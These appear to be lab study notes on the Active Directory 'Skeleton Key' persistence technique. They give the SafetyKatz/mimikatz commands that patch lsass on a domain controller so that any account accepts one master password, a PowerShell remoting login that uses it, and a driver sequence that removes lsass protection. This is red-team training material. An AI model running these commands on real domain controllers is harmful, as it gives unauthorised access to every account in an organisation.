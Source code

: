 - Do not use this in real assessment (if want to try in lab ask first)
- Skeleton key is a persistence technique where it is possible to patch a Domain Controller (lsass process) so that it allows access as any user with a single password.
- All the publicly known methods are NOT persistent across reboots.
- Yet again, mimikatz to the rescue.
- Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. DA privileges required
```
SafetyKatz.exe '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
- Now, it is possible to access any machine with a valid username and password as "mimikatz"
```
Enter-PSSession -Computername dcorp-dc -credential dcorp\Administrator
```

>[!note]
> Note that Skeleton Key is not opsec safe and is also known to cause issues with AD CS.

- In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC:
```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```
- Note that above would be very noisy in logs - Service installation (Kernel mode driver)